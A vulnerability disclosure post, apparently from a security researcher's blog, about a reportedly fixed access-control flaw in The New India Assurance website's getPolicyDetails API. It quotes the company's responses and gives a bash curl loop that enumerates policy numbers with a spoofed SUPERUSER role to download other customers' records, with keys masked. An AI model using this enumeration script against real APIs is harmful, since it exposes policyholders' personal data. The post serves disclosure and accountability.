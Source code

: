 ```yaml
---
title: The New India Assurance Co Ltd Vulnerability 2024
date:
  created: 2025-08-13
  updated: 2025-08-13
---
```


An "alleged" vulnerability in the NIA website allowed downloading sensitive personal information of policyholder simply by the policy number.

Summary of the "alleged" vulnerabilities:

| Sr | API  | Date reported | Date fixed | Days taken | CERT-in reference number |
|----|------|---------------|------------|------------|--------------------------|
| 1  | [getPolicyDetails](#1-getpolicydetails)  | 31 October 2024 | before 18 November 2024 | Less than 18 | not assigned due to non-reproducibility (due to delay in reporting it to CERT after reporting it to NIA) |

Root cause in [OWASP](https://cheatsheetseries.owasp.org/index.html) terms:

- A01 2021 Broken Access Control: CWE-35 Path Traversal, CWE-284 Improper Access Control, CWE-285 Improper Authorization
- A04 2021 Insecure Design: Insecure Direct Object Reference
- A07 2021 Identification and Authentication Failures: CWE-287 Improper Authentication, CWE-613 Insufficient Session Expiration

<!-- more -->

It is important to note that the company denied existence of any vulnerability.

> Thank you for your valuable feedback. We would like to inform you that your
> concerns have been reviewed by the relevant team, and it has been confirmed that
> the system does not permit downloading of other insured details. We assure you that
> NIA is committed to maintaining the safety and security of the customers and will
> continue to do so.
> We consider the matter resolved and are closing it accordingly.

After providing them with a sample JSON file, they replied as follows:

> Dear Sir,
>
> Thank you very much for your revert and inputs.
>
> We really appreciate your concern on the matter and seriousness associated with it.
>
The  fact of matter is that we are having a managed SOC and as soon as we received your alert, we had shared the same with our partners for their response post which immediately we sought the services of Cert-In empanelled  Independent Assurance Auditor. Based on their observations, we updated both Cert-In as well as IRDA on this issue and shared our response to your query.  There was no intention of covering up and NIA believes in collaborative efforts to mitigate vulnerabilities. We are very much interested to learn more on this issue/other cyber security related  issues from you and our INFOSEC team will > coordinate with you to seek your appointment and meet you in person, if it is acceptable to you, to learn more and to infuse improvements.
>
> We once again thank you for the inputs and support.
>
> $$$
>
> Chief Manager,
>
> Corporate Finance & Accounts Dept.,
-----

### 1. getPolicyDetails

The API relied on headers `api_key` and `checksum` but these were available in the front-end code itself, and were not tied to any user session. `userid` and customer ID were also not authenticated or signed.

```bash title="sample_script.sh" linenums="1"
#!/bin/bash
for POLICY_NUMBER in $$$$$$$$ $$$$$$$$; do
    curl 'https://www.newindia.co.in/BaNCSIntegrationWebComp/rest/commoncomponent/getPolicyDetails' -X POST \
    -H 'customerName: CUSTOMER' \
    -H 'typeOfCustomer: CUSTOMER' \
    -H 'api_key: $$$$$$$$' \
    -H 'checksum: $$$$$$$$' \
    -H 'applicationid: portal' \
    -H 'userid: CUSTCG0000' \
    --data-raw '{"userProfile":{"userId":"CUSTCG0000","loggedInRole":"SUPERUSER"},"quote":{"policyNumber":"'"$POLICY_NUMBER"'","processType":"NB","productCode":"PU"},"productCode":"PU"}' \
    -o policy_leak_$POLICY_NUMBER.json
done
```

<details>
<summary>Sample output</summary>
```json linenums="1"
---8<--- "docs/vuln/posts/content_nia/nia_vuln_1.json"
```
</details>

After the "alleged" fix, the new curl request was as follows. Observe the new header `X-Auth-Token` and the additional `Cookie` header.

```bash title="sample_script_fixed.sh" linenums="1" hl_lines="2 8"
curl 'https://www.newindia.co.in/BaNCSIntegrationWebComp/rest/commoncomponent/getPolicyDetails' -X POST \
 -H 'X-Auth-Token: $$$$$$$$' \
 -H 'customerName: CUSTOMER' \
 -H 'typeOfCustomer: CUSTOMER' \
 -H 'api_key: $$$$$$$$' \
 -H 'checksum: $$$$' \
 -H 'applicationid: portal' \
 -H 'Cookie: citrix_ns_id=$$$$$$$$' \
 -H 'userid: CUSTCG0000' \
 --data-raw '{"userProfile":{"userId":"CUSTCG0000","loggedInRole":"SUPERUSER"},"quote":{"policyNumber":"$$$$$$$$","processType":"NB","productCode":"PU"},"productCode":"PU"}'
```
